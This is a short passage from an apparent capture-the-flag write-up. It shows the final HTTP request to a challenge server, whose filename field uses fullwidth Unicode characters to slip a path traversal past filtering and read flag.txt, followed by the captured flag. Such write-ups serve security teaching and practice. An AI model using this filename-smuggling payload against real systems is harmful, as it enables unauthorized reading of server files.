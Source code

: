 Finally we could wrap up everything together and send the following request:
```http
POST /guinjutsu HTTP/1.1
Host: 54.157.87.12:1337
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

filename=%/ＮＮ/ＮＮ/ＮＮ/flagＮtxt
```

**Flag:** `Yogosha{It_SeemS_Icouldn'T_Get_My_RevengE_After_All}`